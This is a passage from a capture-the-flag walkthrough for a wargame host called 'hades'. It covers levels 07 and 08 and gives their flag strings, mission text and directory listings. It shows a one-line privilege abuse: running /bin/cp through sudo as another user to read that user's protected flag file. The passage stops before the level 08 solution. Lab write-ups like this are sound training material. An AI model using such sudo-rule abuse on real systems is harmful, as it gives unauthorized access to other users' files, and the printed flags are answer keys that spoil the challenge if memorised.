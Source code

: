 ## User - ariadne

### flag - 07

```plaintext
^FuGFaFNhtKNxUInxAtd^
```

### 任务目标

```plaintext title="mission.txt"
The user arete lets us use cp on her behalf.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root    ariadne 4.0K Jul 26  2023 .
drwxr-xr-x 1 root    root    4.0K Jul 26  2023 ..
-rw-r--r-- 1 ariadne ariadne  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 ariadne ariadne 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 ariadne ariadne  807 Apr 23  2023 .profile
-rw-r----- 1 root    ariadne   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root    ariadne  165 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
ariadne@hades:~$ sudo -u arete /bin/cp /pwned/arete/flagz.txt /dev/stdout                
^qmrrbGUXLTqLFDyCDlx^
```

## User - arete

### flag - 08

```plaintext
^qmrrbGUXLTqLFDyCDlx^
```

### 任务目标

```plaintext title="mission.txt"
The user artemis allows us to use some binary on her behalf. Its a gift... 
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root  arete 4.0K Jul 26  2023 .
drwxr-xr-x 1 root  root  4.0K Jul 26  2023 ..
-rw-r--r-- 1 arete arete  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 arete arete 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 arete arete  807 Apr 23  2023 .profile
-rw-r----- 1 root  arete   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root  arete  227 Jul 26  2023 mission.txt
```
